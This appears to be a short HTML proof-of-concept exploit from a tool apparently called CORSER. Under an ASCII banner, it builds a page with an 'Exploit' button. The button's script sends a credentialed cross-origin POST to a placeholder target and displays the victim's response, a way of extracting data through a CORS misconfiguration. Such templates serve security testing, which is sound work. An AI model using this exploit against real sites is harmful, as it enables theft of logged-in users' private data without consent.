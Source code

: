  / ___/ _ \|  _ \/ ___|| ____|  _ \

| |  | | | | |_) \\___ \|  _| | |_) |

| |__| |_| |  _ < ___) | |___|  _ <

 \\____\\___/|_| \\_\\____/|_____|_| \\_\    Author: --==dienpv==--

  

  

<!DOCTYPE html>

<html>

<head>

<script>

        function cors() {

                var xhttp = new XMLHttpRequest();

                var params = 'param1=value1&param2=value2';

                xhttp.onreadystatechange = function() {

                        if (this.readyState == 4 && this.status == 200){

                                document.getElementById("demo").innerHTML = alert(this.responseText);

                        }

                };

                xhttp.open("POST", "https://target.com/anything", true);

                xhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

                xhttp.withCredentials = true;

                xhttp.send(params);

        }

</script>

</head>

<body>

<center>

<h2>CORS POC</h2>

<h3>Extract Information</h3>

<div id="demo">

<button type="button" onclick="cors()">Exploit</button>

</div>

</body>
